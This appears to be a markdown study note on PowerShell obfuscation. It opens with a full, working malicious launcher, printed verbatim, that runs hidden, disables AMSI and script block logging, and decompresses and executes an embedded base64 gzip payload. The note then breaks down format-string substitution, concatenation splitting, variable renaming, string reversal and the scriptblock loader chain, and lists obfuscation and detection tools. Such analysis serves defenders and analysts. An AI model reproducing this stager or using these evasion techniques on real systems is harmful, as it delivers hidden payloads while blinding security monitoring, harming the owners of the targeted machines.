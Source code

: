 # Example:
```
"powershell.exe" -nop -w hidden -noni -c "if([IntPtr]::Size -eq 4){$b='powershell.exe'}else{$b=$env:windir+'\syswow64\WindowsPowerShell\v1.0\powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c $tjtrJ=((''''+''Enabl{3}Sc{''+''2}ipt{1}lo''+''c{4}{0''+''}nv''+''ocation{5}ogg''+''i''+''ng'')-f''I'',''B'',''r'',''e'',''k'',''L'');
$gwcY=((''{''+''3}nabl{2}Sc{''+''1}i''+''pt{0}lockL''+''ogging''+'''')-f''B'',''r'',''e'',''E'');
$jZ5C=((''Sc''+''ript{2}{1}oc{0}L''+''og''+''ging''+'''')-f''k'',''l'',''B'');
$xLV9W=[Collections.Generic.Dictionary[string,System.Object]]::new();If($PSVersionTable.PSVersion.Major -ge 3){$znaT=[Ref].Assembly.GetType(((''{0}''+''{''+''6''+''}''+''stem{9}''+''{4''+''}ana''+''{3''+''}ement{9}{''+''7}''+''{2''+''}''+''t{''+''8}''+''mati{8}n{''+''9}{7}ms''+'
'i''+''{''+''1}t''+''i{5''+''}s'')-f''S'',''U'',''u'',''g'',''M'',''l'',''y'',''A'',''o'',''.''));
$uYi_U=[Ref].Assembly.GetType(((''''+''{3}''+''ystem.{''+''2}a''+''na{0}ement.''+''{''+''1}utomation.{4}''+''ti{5}s'')-f''g'',''A'',''M'',''S'',''U'',''l'')); if ($znaT) {$znaT.GetField(((''am{''+''3''+''}i{0''+''}{2}i{''+''1}''+''Fa''+''i''+''{4''+''}ed'')-f''I'',''t'',''n'',''s'',''l''),''NonPublic,Static'').SetValue($null,$true); };
$ff4Nc=$uYi_U.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($ff4Nc) { $lUh3W=$ff4Nc.GetValue($null); If($lUh3W[$jZ5C]){ $lUh3W[$jZ5C][$gwcY]=0;
$lUh3W[$jZ5C][$tjtrJ]=0; } $xLV9W.Add($gwcY,0); $xLV9W.Add($tjtrJ,0);
$lUh3W[''HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\''+$jZ5C]=$xLV9W; } Else {[Ref].Assembly.GetType(((''Sy{''+''0}tem.Management''+''.A{''+''4}''+''tomatio''+''n.S''+''c{1}ipt''+''{2}{5}oc{3''+''}'')-f''s'',''r'',''B'',''k'',''u'',''l'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sIAH8phmICA7VX+''+''2/iS''+''BL+faX9H6wVEkYhYAPJhZFGOhtsMMG8/MKwaNXYDTS0bW''+''I3ELK7//tV80gyN8nd3EljCcXu{2}''+''qqu/uq{2}Rxa7OGAki{1}VWDY{1}/f/1FuDwDlKJIEHPR4zosCjkajNe48LYNCx''+''vhqyBOle22mUSIxLMvXxq7NMUxO3+XWpgpWYajOSU4EwvCX4K3wim+7c/XOGDCn0Luj1KLJnNEL2LHBgpWWLhV4pDvdZMAcc9K1pYSJuZ//z1fmN7Ks5L2t''+''EM0E/PWMWM4KoWU5gvC3wV+oH3cYjFvkiBNsmTBSh6Jq5WSE2dogXtgbY9NzFZJmOXhLm+3STHbpfHpUtzKWUbMw+sgT{1}IlDFOcZfmiMOX2p7PZP8Xp5fDRLmYkwiUjZjhNthZO9yTAWamN4pDiEV7M{1}MtiK''+''YmXs0IBxPbJBou5eEdpUfhfzIg9fLhC96NK4nslkBqwtFCEmH5/TTMJdxSfFfMf+Hmi{1}{1}GeVyoAfn9zCBdX/hx{2}Dx/w523h+kxPOxhcFgdJRk66XwWpKJhwOmJJeoTPnJ3ucGH2C{2}i{1}e+paD8UftSZfVbmiBwtTNyHh7E39m+jnNu3I0bnU52Ru4gWJcfMYo4gEV76KHwUFLyg+IVK6ivXA{1}TF/2cBhE1O8RIzjzLnxnZoWEfaqq+4IDXGqBBDYDLyCmBe+deYcOjFvxCaOAL3zN5A1t4AswVfpS2Yc{2}6fzbxDKNyjKsq''+''Iw2''+''EGaBkXBwo''+''hiSHglzshl''+''S9mx5PSaf3PX3FFGApSxq7lZ4d/xvJzbSOKMpbsAAgsY2NYWBwRRDklRaJM{1}q0eLLK/n5z8EpIEohfwBS3sICKxwI''+''CzG6ZLy''+''2sSpUShZmBnRluIIZE51{1}6doCVXikiUnfqElDvOfeXpNhzP3OTZXUN75C{1}G3aMKKgktSBmWI4/zk/V9OfF9+zt40UnyJj3hNsql6ZDwNcoc/As7TC0YnRFIGaOhpEqkow/e1c60Rfyv3yUCBx2+2{2}YnBLBN+TSOmRDYcUjUSc/EwYFISmUEjG7T0B4UclofgoacEYSfEdcutMUszWGOgtIdEUmu{2}{1}JVseHcMZ{2}{1}M5htK214FVBo022XLzyRyaHvc1tlGUKu1x5JS{2}db6VWkD6PlEXm6UsBeRw3MX3qGo9{2}uqkamS{1}bVOYzT3''+''Kv{2}Eo+1yTV8tvCSz7v1muVyuh6h1R0NFTcIK3SF3lNjtIFLLZdcMme3IPdu5ISq/p+3V75H3nPnWg9xdK8vHFh363vAfhtYbupY6cI7Kc899eBm/aMt5i6YTS+35n{2}m0ZXPpNTbL4Vg9zFvueOJ1umg83PfWCtjRdqbtLB81Z{2}iab''+''HYbaoY8Rg0tpH6F7R8t1ZuMOy/Iq++6Lx{2}IG0vwg4AflH+PbE3qN1Tb9ya{2}INpwmxLYVFBz62G0KMtuz0ZLuENlFWhDRblvmvwu+1579D{1}nMnK1iWl5juw2w8R+M''+''Wp''+''zV++F1dVkSOnBch5qvbW+Np1R14xHVcudDLDuRqEUbnxvFA83YXUU1dlkPdLnY/Mw15gauuEBNzcVX5{2}0{2}aZTHWnUMt3tnbPZtvs6bVhxZ41sN5vTVTNw6m''+''vf0425I79MKqNFKD0bOA4Zcphstfxnx6HSpO3e2c7dMJTqkblxj67baZgVeTe3fcmu9Iy52xmNWndqb6wd7a{2}aVH{1''+''}1cWvR4nlfdkkwsZGiHO+NEY/j2JEnyb3s7Po{1}Wxolj+MKUcyDohCsPqm6+tSG/dBBeAW6p7jDd3fo+xjkgZuy3iKGBvJIsw893CzLTl1+wasO5wbaqInCkW0tFUVTFMDb3+oDWq57YKffuZPDRGnAvt7zkP{2}oEdwty/5YCc2b{2}npoN7n9O3fdHN+sUiBl2b{1}V4IV/gHiffkp''+''3v2xbySN6RO5+Ui3L9qG1UJ6UmxtVVues{2}VU7e7RU7XLd+fob5PTUITG{2}Vma59O7Z4c3v119yq9G9+S61P+vtJkqzFaK{1}8tC1{2}8''+''VXT1L90oY''+''HCeEaosjHu{1}1OY0xhAIIR6VqwFEqTgE8BvF/DAHIeC/iU4hgnpz56Kwivgo''+''W36eC69OXLBHyEGgjVqdTF8ZKtitJzVZKgqUvPUu1U6378Yo1kexS5''+''{2}SKfCk7AXGzTk20wRxaCKP50qGD2Y9CCPgX{2}M9zg5A30C+hg5yLO0VOThL7H7nKtVya8gw4wk+HiUz71nRgCBm7xk5BjfCZ6P2PlsPZTKXPpRCv4E/4Xy{2}yt/YfdH6KRVDxj893yt''+''wvvuvjPA8BDhIGgBR2V4vOc9yEOlyx5F16s{1}{1}osLg//36e/Y7c9mKZPHf1f580shnUNAAA{0}'')-f''='',''Q'',''r'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"
```
# Substitution:
Using Substitution to break up the code making it harder to read or pattern match. 
```
$gwcY=((''{''+''3}nabl{2}Sc{''+''1}i''+''pt{0}lockL''+''ogging''+'''')-f''B'',''r'',''e'',''E''); 
```
```
''B'',''r'',''e'',''E''
  0     1     2     3
$gwcY=EnableScriptBlockLogging
```

# Splitting
Adding white space that is removed when the code it ran. This won't affect its ability to run but will make it harder to read or pattern match. 
```
''+''
```
***Note:*** this is just a concatenation and can be removed when reversing 


# Variables
Use variables to break up the code making it harder to read or pattern match
```
$nTlW = New-Object Microsoft.CSharp.CSharpCodeProvider
$cUj0x = New-Object System.CodeDom.Compiler.CompilerParameters
$cUj0x.ReferencedAssemblies.AddRange(@("System.dll", [PsObject].Assembly.Location))
$cUj0x.GenerateInMemory = $True
$zgA = $nTlW.CompileAssemblyFromSource($cUj0x, $dn)
```

# Reverse a String:
## Non Regex
```
$string = "This is a test, hope it works!"
$arr = $string -split ""
[array]::Reverse($arr)
$arr -join ''
```
```
$str = "This is a test, hope it works!"
$str[-1..-($str.length)] -join ""
```
```
$str = “This is a test, hope it works!” -join (($str.length-1)..0 | Foreach-Object { $str[$_] })
```
```
“This is a test, hope it works!” -split “” | ForEach-Object -Begin {$a = @()} -Process {$a = $_ + $a} -End {$a}
```
## Regex
```
$String = "This is a test, hope it works!"
([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
```

## Other
```
$PTR = “100.1.1.10.in-addr.arpa”
$t = $PTR -replace ‘.in-addr.arpa$’ -split ‘.’
$IP = $t[-1..-($t.Count)] -join ‘.’
$IP
```
##### Response
```
10.1.1.100
```
## ScriptBlock
```
&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object
System.IO.Compression.GzipStream((New-Object
System.IO.MemoryStream(,[System.Convert]::FromBase64String(...),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';
```
1. [scriptblock]::create - create an object representing a pre-compiled block of powershell script New-Object System.IO.StreamReader - read file data
2. New-Object System.IO.Compression.GzipStream - decompress byte array
3. New-Object System.IO.MemoryStream(, - Passing an array of bytes to system.IO.MemoryStream (the coma following the paraenthesis is important) https://scriptingetc.wordpress.com/2019/05/22/passing-an-array-of-bytes-to-system-io-memorystream/
4. [System.Convert]::FromBase64String - which converts a base64-encoded string to a byte array






# Powershell notes:
1. NoE – NoExit: Doesn’t exit after running the command, i.e. creates a process and stays running as powershell.exe
2. NoP – NoProfile: Doesn’t load the PowerShell profile
3. NonI – NonInteractive: Doesn’t create an interactive prompt, i.e. it runs the command without the PowerShell window popping up a persistent terminal on the user’s screen
4. ExecutionPolicy Bypass: Bypasses the execution policy if it is set (self-explanatory)
5. C – Command: What to run (again, pretty self-explanatory)
6. Set-Alias cmdlet - sal: creates a shortcut ‘a’ for New-Object







# Resoures:
1. https://www.huntress.com/blog/from-powershell-to-payload-an-analysis-of-weaponized-malware
2. https://github.com/danielbohannon/Invoke-Obfuscation
3. https://github.com/danielbohannon/Revoke-Obfuscation
4. https://github.com/danielbohannon/Invoke-CradleCrafter
5. https://github.com/JoelGMSec/Invoke-Stealth
6. https://github.com/GhostPack/Invoke-Evasion
7. https://github.com/tokyoneon/Chimera
8. https://github.com/klezVirus/chameleon
9. https://github.com/vysecurity/ps1-toolkit
10. https://github.com/CBHue/PyFuscation
11. https://github.com/Mr-Un1k0d3r/Base64-Obfuscator
